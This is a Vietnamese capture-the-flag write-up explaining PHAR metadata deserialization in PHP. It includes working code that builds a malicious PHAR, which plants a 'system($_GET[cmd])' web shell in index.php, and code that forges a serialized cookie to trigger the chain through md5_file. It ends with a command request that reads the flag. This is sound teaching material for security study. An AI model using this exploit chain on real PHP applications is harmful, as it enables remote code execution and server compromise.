

+++
title = "PHAR type shit"
description = 'dòng dưới'
date = 2025-09-03
+++



Challenge này là về PHAR (PHP Archive). Ta có thể đơn giản hiểu PHAR là 1 kiểu file nén được thiết kế cho PHP, thường chứa file và metadata. PHAR có 1 đặc điểm là nếu ta gọi các hàm như file_exists(), md5_file(), getimagesize() … với đường dẫn bắt đầu bằng `phar://`, thì PHP sẽ tự động giải nén PHAR và unserialize phần metadata

* Nghĩa là: nếu trong metadata có 1 object PHP, thì nó sẽ được unserialize → kích hoạt `__destruct()` / `__wakeup()` / `__toString()` trong class đó.

Sử dụng lỗ hổng này, ta có thể giải chall này như sau:

* Ta có thể upload avatar (ảnh) và server cho phép unserialize cookie `user`
* Trong code có class `LogFile::__destruct()` chạy `md5_file($this->filename)`
* Nếu `$this->filename` là một đường dẫn `phar://...`, thì PHP sẽ giải nén metadata của file PHAR, và unserialize object chứa trong đó (không bị giới hạn bởi `allowed_classes`).

Tạo payload PHAR:

```
<?php
class Logger {
    public function __destruct() { }
}
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("<?php __HALT_COMPILER(); ?>");

// payload: ghi PHP shell vào file index.php
$object = new Logger();
$object->logs = '/var/www/html/index.php'; 
$object->request = '<?php system($_GET["cmd"]); ?>';

$phar->setMetadata($object);
$phar->stopBuffering();
```

**Trong metadata của PHAR, ta nhét một object `Logger`. Object này có property `$logs` (đường dẫn file sẽ ghi) và `$request` (nội dung ghi vào). Khi bị unserialize và chạy destructor, nó sẽ mở file `$logs` rồi ghi `$reques`t vào → chèn shell vào index.php.**

Tiếp là tạo cookie `user`:

```
<?php
class LogFile { public $filename; }
$o = new LogFile();
$o->filename = "phar://upload/<username>/shell.jpg";
echo base64_encode(serialize($o));
```

Từ đó sử dụng cookie ta vừa gen được, khi hệ thống unserialize cookie này, destructor `LogFile::__destruct()` chạy:

```
md5_file("phar://upload/<username>/shell.jpg")
```

Việc gọi md5_file trên `phar://` sẽ tự động unserialize metadata → lúc này object `Logger` được kích hoạt.

Cuối cùng sử dụng `curl` hoặc Burp Suite, truy cập vào `/?page=index.php&cmd=cat+/flag.txt` kèm cookie vừẽa rồi, lệnh `system()` sẽ in nội dung flag.